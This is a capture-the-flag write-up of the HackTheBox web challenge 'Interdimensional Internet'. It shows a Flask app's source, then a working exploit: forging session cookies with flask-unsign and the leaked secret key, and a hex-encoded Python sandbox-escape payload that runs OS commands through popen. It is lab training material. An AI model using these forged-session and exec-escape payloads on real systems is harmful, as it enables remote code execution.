 - [Interdimensional Internet](#interdimensional-internet)
  - [The site](#the-site)
  - [Looking under the hood](#looking-under-the-hood)
  - [Source code](#source-code)
    - [Secret Key](#secret-key)
    - [Hacking the session token with flask-unsign](#hacking-the-session-token-with-flask-unsign)
    - [Entry point](#entry-point)
    - [Bypassing the forbidden characters](#bypassing-the-forbidden-characters)
    - [Payload building](#payload-building)
  - [More info about the payload](#more-info-about-the-payload)
    - [Payload to big](#payload-to-big)

# Interdimensional Internet
| Type | Difficulty | Points | Site       | Author    | Solved    |
| ---- | ---------- | ------ | ---------- | --------- | --------- |
| Web  | Medium     | 30     | HackTheBox | makelaris | 28.2.2022 |

## The site
We visited the web site through any browser. And it looked like this.
![Site](img/site.jpg)  
___
## Looking under the hood
Nothing special. After refreshing the site multiple time I saw that the numbers are changing. So I went and took a look under the hood (CTRL + SHIFT + I on Firefox). And I saw something interesting.  
![Debug](img/debug.jpg)
___
## Source code
So I visited the directory and voila. La Sauce Code!
```python
from flask import Flask, Response, session, render_template
import functools, random, string, os, re

app = Flask(__name__)
app.config['SECRET_KEY'] = os.environ.get('SECRET_KEY', 'tlci0GhK8n5A18K1GTx6KPwfYjuuftWw')

def calc(recipe):
    global garage
    builtins, garage = {'__builtins__': None}, {}
    try: exec(recipe, builtins, garage)
    except: pass

def GFW(func): # Great Firewall of the observable universe and it's infinite timelines
    @functools.wraps(func)
    def federation(*args, **kwargs):
        ingredient = session.get('ingredient', None)
        measurements = session.get('measurements', None)

        recipe = '%s = %s' % (ingredient, measurements)
        if ingredient and measurements and len(recipe) >= 20:
            regex = re.compile('|'.join(map(re.escape, ['[', '(', '_', '.'])))
            matches = regex.findall(recipe)
            
            if matches: 
                return render_template('index.html', blacklisted='Morty you dumbass: ' + ', '.join(set(matches)))
            
            if len(recipe) > 300: 
                return func(*args, **kwargs) # ionic defibulizer can't handle more bytes than that
            
            calc(recipe)
            # return render_template('index.html', calculations=garage[ingredient])
            return func(*args, **kwargs) # rick deterrent

        ingredient = session['ingredient'] = ''.join(random.choice(string.lowercase) for _ in xrange(10))
        measurements = session['measurements'] = ''.join(map(str, [random.randint(1, 69), random.choice(['+', '-', '*']), random.randint(1,69)]))

        calc('%s = %s' % (ingredient, measurements))
        return render_template('index.html', calculations=garage[ingredient])
    return federation

@app.route('/')
@GFW
def index():
    return render_template('index.html')
 
@app.route('/debug')
def debug():
    return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == '__main__':
    app.run('0.0.0.0', port=1337)
```

### Secret Key
So the first thing that caught my eye was the secret key. In flask if you have the secret key you can sign your own sessions so I thought thats what the challenge wanted from me.

I looked around and saw that two variables were "made" using the session. Ingredient and measurements.
```python
ingredient = session.get('ingredient', None)
measurements = session.get('measurements', None)
```
Those two were then put together into a recipe.  
And then checked for forbidden characters: `'['`, `'('`, `'_'`, `'.'`.
```python
recipe = '%s = %s' % (ingredient, measurements)
#One more line that checks if its over or equal to 20 but that doesn't matter
regex = re.compile('|'.join(map(re.escape, ['[', '(', '_', '.'])))
matches = regex.findall(recipe)
```

### Hacking the session token with flask-unsign
[Flask unsign](https://pypi.org/project/flask-unsign/) is a great tool for fetching, decoding, and brute-forcin flask applications secret keys. So that's why I used it.

I first took the stored session and decoded it with the bellow command.
I stored the token in a variable named token.  
`flask-unsign --decode --cookie $token`  
And got an output of random string of letters and a random number.  
`{'ingredient': b'aasdadavaw', 'measurements': b'1+1'}`

I then modified the token so it overflowed and was bigger than 300 to get an error.
`flask-unsign --sign --cookie $cookie`
And woila. Morty the dumbass.  
![Site Error](img/site_error.jpg)

### Entry point
Now I knew I can modify the token. Now just where to use this.
Well lets take a look at the function `calc`. 
```python
def calc(recipe):
    global garage
    builtins, garage = {'__builtins__': None}, {}
    try: exec(recipe, builtins, garage)
    except: pass
```
It takes the recipe and puts it into exec with the __builtins__ module.
But wait isn't that dangerous? A small google search with exec builtins none will tell you YES!  
https://stackoverflow.com/questions/59482234/is-an-execstring-builtins-none-a-secure-way-to-execute-user-inpu  
And heres the payload.
```python
s = "[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('shellcode')"
exec(s, {'builtins': None})
```
Ok thats good. Well not really. Because builtins are set to none we have no Built in functions. So no import.  
My precious import, much sadge :'(  
Ok so lets try putting another exec inside the exec.
So the command that is going to be executed would look like this:
```python
exec\'i=[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == "catch_warnings\\"][0]()._module.__builtins__["__import__"];i(\\"os\\").system("'+command+'\\")\'#'
```

### Bypassing the forbidden characters
So now we need to bypass the forbidden characters.
Ok lets just hex encode them.
| Char | Hex |
| ---- | --- |
| .    | x2e |
| _    | x5f |
| [    | x5b |
| (    | x28 |
Ok so now we can finally build the payload.

### Payload building
So first we take our payload and we hex encode it.

```python
def payload_com(command):
    value = [".", "_", "[","\'","("]
    hex_val = ['\\\\\\\\x2e', '\\\\\\\\x5f', '\\\\\\\\x5b', '\\\'','\\\\\\\\x28']
    #v1 too big
    string = 'exec\'i=[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == \\"catch_warnings\\"][0]()._module.__builtins__[\\"__import__\\"];i(\\"os\\").system(\\"'+command+'\\")\'#'
    #v2 just right. And uses the flask session and popen read to return the value of the command
    string = 'exec\'i=().__class__.__base__.__subclasses__()[59]()._module.__builtins__[\\"__import__\\"];i(\\"flask\\").session[\\"x\\"]=i(\\"os\\").popen(\\"'+command+'\\").read()\'#'
    for i in range(len(value)):
        string = string.replace(value[i], hex_val[i])
    return string
```
[More info about the payload](#more-info-about-the-payload)

Why so many slashes you ask? Well every time we use the command the slashes are halved. They're halved when we take the command and we put it into our flask-unsign and halved on the server side and halved when we `for i in range` the values.
I also modified the payload so it can be used with flask-unsign. I just put the whole command inside the terminal until it wasn't red anymore.

Then we make a session token and use the `os.popen` to execute the command.
```python
payload = payload_com(com)
session_token_generation_command = "flask-unsign --sign --cookie \"{'ingredient': b'"+payload+"', 'measurements': b'1+1'}\" --secret 'tlci0GhK8n5A18K1GTx6KPwfYjuuftWw'"
session_token = os.popen(session_token_generation_command).read().strip()
```
Then we send the cookie to the server.
```python
result_request = requests.get(host, cookies={'session':session_token})
```
And we get a new cookie back which we named x. And decode it with flask-unsign. And offcorse popen the command. And print.
```python
new_cookie = result_request.headers["Set-Cookie"].split("=")[1].split(";")[0]
ses_tok_dec_command = "flask-unsign --decode --cookie {}".format(new_cookie)
decoded = os.popen(ses_tok_dec_command).read().strip()
print(decoded)
```
Then we run the command and we search for the flag with ls.
But watch out you cant really cat out the really loooooooong flaaaaaak because its too long.
So you just use some Linux Magic and do `cat total*` and theres your flag.
___
## More info about the payload
### Payload to big
Ok so the payload was to big. Around 340 characters. To much ma boy.
So then I fired up my terminal python and looked at what it really does.
So i found out that this part iterates through the subclasses and searches for catch_warnings.
Well surely we can minimize that. Well yes.
```python
[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == "catch_warnings"][0]
```
I just took a look at the subclasses. Printed out the indexes and the names until I found the catch_warnings subclass. Its the 59. So now we can easily shorten the payload to this:
```python
().__class__.__base__.__subclasses__()[59]
```
Damn almost half the length.

Also the os system doesn't return any output. Nada. Zilch. So that's why I used popen read.